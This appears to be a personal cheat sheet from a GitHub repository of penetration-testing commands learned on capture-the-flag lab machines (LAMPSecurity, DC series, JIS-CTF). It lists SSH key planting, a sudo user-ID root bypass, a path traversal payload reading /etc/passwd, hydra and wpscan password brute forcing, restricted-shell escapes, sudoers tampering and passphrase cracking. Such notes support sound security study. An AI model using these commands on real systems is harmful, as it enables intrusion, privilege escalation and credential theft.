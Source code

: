 # interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
```
#### DC-1
what I had learn from this machine is:
```
find / -exec /bin/sh \;
```
#### DC-2
what I had learn from this machine is:
```
./wpscan --url http://dc-2/
./wpscan --url http://dc-2/ --enumerate : enumerate users
./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
ssh -p- dc-2 : check all ports
ssh -p 7744 tom@dc-2
how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
```
this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html

#### DC-3
what I had learn from this machine is:
```
locate -r .nse$ | grep joomla : look nmap script appropriate to my need
searchsploit linux kernel 4.4 : copier and paste sur google that may have repository in github.
```
#### DC-4
what I had learn from this machine is:
```
requests.post(url).status_code
brute force with burp suite with a wordlist <1000 words
echo "user ALL=(ALL) ALL" | sudo tee /etc/sudoers : tee priviledge escalation
```
#### JIS-CTF01
what I had learn from this machine is:
```
grep -rli 'technawi' --exclude-dir=/proc . 2>/dev/null
```
#### Basic-pentest-2
what I had learn from this machine is:
```
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.0.4.22 http-get /manager/html -V : brute force tomcat authentofocation.
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -V : meme chose que la premiere
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.0.4.22:8080/manager/html -t 1 -V :  send the request to burp suite

enum4linx 10.0.4.22: list all shared files and groups and user systems
ssh2john id_rsa file.txt :  to retrive the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt file.txt : return the passphrase
ssh -i id_rsa kay@10.0.4.22
```





